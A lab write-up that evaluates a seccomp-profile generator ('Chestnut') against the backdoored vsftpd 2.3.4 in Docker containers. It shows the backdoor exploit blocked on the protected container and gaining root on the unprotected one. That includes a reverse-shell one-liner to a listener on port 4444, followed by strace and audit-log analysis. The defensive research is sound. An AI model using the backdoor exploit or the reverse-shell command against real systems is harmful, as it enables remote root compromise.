 ## vsftpd – chestnut

### Preparation

_For the container with seccomp, we execute the file `/tmp/script.sh` which is extracting the system calls from the binary `vsftpd`, creating a seccomp-profile based on these detected system calls and subsequently applying the profile on the binary. Afterwards, the binary is automatically run._

`docker exec -it vsftpd-chestnut-seccomp-container bash -c "source /Chestnut/Binalyzer/venv/bin/activate && /tmp/script.sh"  `

_For the container without seccomp, we just have to start it with following command:_

`docker exec -it vsftpd-chestnut-normal-container /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
4f16987c58e0 vsftpd-chestnut-seccomp "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2104->21/tcp, [::]:2104->21/tcp, 0.0.0.0:6204->6200/tcp, [::]:6204->6200/tcp vsftpd-chestnut-seccomp-container
66fa1ece7f08 vsftpd-chestnut-normal "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2103->21/tcp, [::]:2103->21/tcp, 0.0.0.0:6203->6200/tcp, [::]:6203->6200/tcp vsftpd-chestnut-normal-container

❯ docker inspect vsftpd-chestnut-seccomp-container | grep '"IPAddress":'
"IPAddress": "192.168.224.2",
❯ docker inspect vsftpd-chestnut-normal-container | grep '"IPAddress":'
"IPAddress": "192.168.224.3",

```

_Seccomp_:
The attack on the container with the applied seccomp profile on the binary fails:

```
❯ ./attackSubject.sh 192.168.224.2 whoami
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 id
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 ls
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 pwd
read(net): Connection reset by peer
[-] no response!
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
❯ ./attackSubject.sh 192.168.224.3 "id"
[+] worked: uid=0(root) gid=0(root) groups=0(root)
❯ ./attackSubject.sh 192.168.224.3 "pwd"
[+] worked: /app/vsftpd-2.3.4-infected
❯ ./attackSubject.sh 192.168.224.3 "ls"
[+] worked: AUDIT
BENCHMARKS
❯ ./attackSubject.sh 192.168.224.3 "whoami"
[+] worked: root
❯ ./attackSubject.sh 192.168.224.3 "bash -c 'bash -i >& /dev/tcp/192.168.224.1/4444 0>&1'"
[-] no response!

❯ nc -lvnp 4444 # note, this is on another terminal
Connection from 192.168.224.3:37400
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
root@66fa1ece7f08:/app/vsftpd-2.3.4-infected# id
id
uid=0(root) gid=0(root) groups=0(root)

```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the container with the command `strace -f /tool/Chestnut/ChestnutPatcher/rewrite.sh /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf` we are able to see that just before the process with the pid `88` was killed with the signal `SIGSYS`, the system call `wait4` was executed.
In addition, pid `89` executed `getgid` and was also with `SIGSYS`.

```
[pid    88] alarm(0 <unfinished ...>
[pid    88] <... alarm resumed> )       = 1
[pid    88] wait4(-1,  <unfinished ...>
[pid    88] <... wait4 resumed> NULL, WNOHANG, NULL) = 61
[pid    88] +++ killed by SIGSYS +++
...
[pid    89] mprotect(0x5b5ee881b000, 8192, PROT_READ) = 0
[pid    89] mprotect(0x7d22d1047000, 4096, PROT_READ) = 0
[pid    89] munmap(0x7d22d103c000, 17328) = 0
[pid    89] getuid()                    = 0
[pid    89] getgid()                    = 104
[pid    89] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscalls with the number `104` and `61` were the reason for the `SIGSYS` signal.

```
----
# whoami command
time->Thu May  1 09:04:26 2025
type=SECCOMP msg=audit(1746083066.494:1450): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=22798 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=104 compat=0 ip=0x7d22d0b12857 code=0x0
----
time->Thu May  1 09:04:26 2025
type=SECCOMP msg=audit(1746083066.590:1456): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=22711 comm="vsftpd_patched" exe="/app/vsftpd-2.3.4-infected/vsftpd_patched" sig=31 arch=c000003e syscall=61 compat=0 ip=0x7acc6eeb6337 code=0x0
```

We verify that the system call numbers `104` and `61` map to `getgid` and `wait4` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 104
104	getgid

❯ ausyscall --dump | grep 61
61	wait4
```

The last thing we check is, if the system call numbers `104` and `61` was in the applied seccomp profile. The file `policy__app_vsftpd-2.3.4-infected_vsftpd.json` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 19, 20, 21, 23, 28,
    33, 37, 38, 39, 41, 42, 43, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56,
    59, 60, 62, 63, 72, 77, 78, 79, 80, 82, 83, 84, 87, 89, 90, 91, 93, 95, 96,
    102, 105, 106, 107, 108, 111, 112, 113, 114, 116, 132, 157, 158, 161, 164,
    186, 201, 202, 229, 231, 234, 257, 262, 302
  ]
}
```

## Appendix

### Extraction time

The following shows the time needed to extract the system calls from 3 runs:

```
docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m26.930s
user	0m25.725s
sys	0m1.084s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m28.045s
user	0m26.789s
sys	0m1.109s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m27.484s
user	0m26.194s
sys	0m1.140s
```

`(26,930+28,045+27,484)/3=27.486`

### Number of syscalls

```
echo '{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 19, 20, 21, 23, 28,
    33, 37, 38, 39, 41, 42, 43, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56,
    59, 60, 62, 63, 72, 77, 78, 79, 80, 82, 83, 84, 87, 89, 90, 91, 93, 95, 96,
    102, 105, 106, 107, 108, 111, 112, 113, 114, 116, 132, 157, 158, 161, 164,
    186, 201, 202, 229, 231, 234, 257, 262, 302
  ]
}' | jq -r '.syscalls | length'
83
```
